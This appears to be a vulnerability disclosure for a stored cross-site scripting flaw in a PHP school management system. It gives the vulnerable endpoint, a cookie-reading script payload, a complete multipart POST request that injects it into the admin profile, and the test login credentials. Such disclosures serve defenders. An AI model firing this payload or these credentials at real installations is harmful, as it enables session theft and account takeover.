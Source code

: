 # Advanced School Management System v1.0 by itsourcecode.com has Cross-site Scripting (XSS)

**Vul_Author**: **Congzhao Wen**

Login account: [suarez081119@gmail.com](mailto:suarez081119@gmail.com)/12345 (Super Admin account)

vendor: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability url: ip/school/view/admin_profile.php#

Vulnerability location: /school/index.php

[+] Payload: <script>alert(document.cookie)</script>

Tested on Windows 10, phpStudy

There is an exemple with alert:

```sql
POST /school/index.php HTTP/1.1
Host: 10.10.10.134:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------168824386524487249392944698838
Content-Length: 1369
Origin: http://10.10.10.134:8000
DNT: 1
Connection: close
Referer: http://10.10.10.134:8000/school/view/admin_profile.php
Cookie: PHPSESSID=vf7g6ffd2s4el0u0gia3elgg14
Upgrade-Insecure-Requests: 1

-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="fileToUpload"; filename=""
Content-Type: application/octet-stream


-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="full_name"

Angel Jude Suarez
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="i_name"

<script>alert(document.cookie)</script>
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="address"

Philippines
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="gender"

Male
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="email"

suarez081119@gmail.com
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="phone"

111-111-1114
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="password"

12345
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="id"

1
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="do"

update_admin_profile
-----------------------------168824386524487249392944698838--
https://github.com/wencongzhao/bug_report/blob/main/vendors/itsourcecode.com/advanced-school-management-system/xss.gif
```

![](https://github.com/wencongzhao/bug_report/blob/main/vendors/itsourcecode.com/advanced-school-management-system/xss.gif?raw=true)